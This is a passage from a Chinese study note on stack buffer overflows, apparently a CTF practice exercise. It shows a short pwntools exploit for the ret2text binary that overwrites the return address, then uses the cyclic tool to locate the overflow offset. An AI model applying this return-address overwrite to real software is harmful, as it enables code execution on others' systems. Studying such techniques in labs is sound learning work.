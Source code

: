 所以ret前面需要覆盖0x6c+0x04个字符。

编写exp：

```python
from pwn import *

p = process("./ret2text")
target = 0x0804863A
payload = b'A'*(0x6c+4)+p32(target)
p.sendline(payload)
p.interactive()

```

![image-20220114153710079](栈溢出学习.assets/image-20220114153710079.png)

### 利用cyclic工具

也是pwntools中的一个东西，感觉就是生成字符串和快速定位溢出点。

首先生成一串150长度的数据：

```
feng@ubuntu:~/Desktop$ cyclic 150
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
feng@ubuntu:~/Desktop$ 

```

然后gdb调试程序，将这串数据输入：

![image-20220114154615652](栈溢出学习.assets/image-20220114154615652.png)
